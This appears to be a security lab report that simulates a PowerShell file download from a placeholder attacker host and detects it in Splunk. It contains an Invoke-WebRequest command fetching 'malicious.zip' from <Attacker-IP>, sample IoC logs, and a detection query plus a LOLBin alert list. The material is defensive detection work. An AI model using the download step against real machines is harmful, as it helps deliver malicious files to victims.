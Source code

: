 🔍 Suspicious File Download & Execution Simulation Report

📌 Use Case

MITRE ATT\&CK Technique:

* Initial Access & Execution

  * `T1204.002` – User Execution: Malicious File

---

📝 Scenario Summary

This simulation replicates a common initial access vector where an attacker uses a legitimate tool such as PowerShell to download and execute a malicious ZIP file. The scenario aims to test the visibility of suspicious download activity and script execution within a Windows environment using PowerShell and detect them via Splunk.

---

🧪 Attack Steps

Tools/Commands Used:

On Attacker Machine (Kali Linux):

```bash
echo "malicious payload inside" > fake_payload.txt
zip malicious.zip fake_payload.txt
python3 -m http.server 8080
```

On Victim Machine (Windows):

```powershell
powershell -Command "Invoke-WebRequest -Uri http://<Attacker-IP>:8080/malicious.zip -OutFile C:\Users\Public\malicious.zip"
```

* This uses PowerShell's `Invoke-WebRequest` to download a ZIP archive containing a fake payload.
* The file is dropped in a public user directory for potential execution.

---

📊 Event IDs & Data Sources

| Source                     | Event ID | Description                     |
| -------------------------- | -------- | ------------------------------- |
| Windows Security Logs      | 4688     | Process creation                |
| Sysmon (if enabled)        | 1        | Detailed process monitoring     |
| PowerShell Operational Log | 4104     | PowerShell script block logging |

---

🔎 Detection Logic (Splunk SPL)

```spl
index=win_logs (EventCode=4688 OR EventCode=1 OR EventCode=4104)
| search CommandLine="*Invoke-WebRequest*" OR ScriptBlockText="*Invoke-WebRequest*"
| table _time, ComputerName, User, CommandLine, ScriptBlockText
```

---

🧾 Sample Logs / IoCs

```
CommandLine: powershell -Command "Invoke-WebRequest -Uri http://192.168.1.100:8080/malicious.zip -OutFile C:\Users\Public\malicious.zip"
ScriptBlockText: Invoke-WebRequest -Uri http://192.168.00.00:8080/malicious.zip
File Created: C:\Users\Public\malicious.zip
```

---

🔐 Recommendations

* Block download and execution of files from untrusted sources using PowerShell.
* Enable and monitor ScriptBlockLogging and ModuleLogging via GPO.
* Restrict PowerShell usage to authorized users.
* Alert on use of LOLBins like `Invoke-WebRequest`, `certutil.exe`, or `bitsadmin.exe`.

---

🚨 Status

* [x] Detection Tested
* [x] Alert Triggered

---
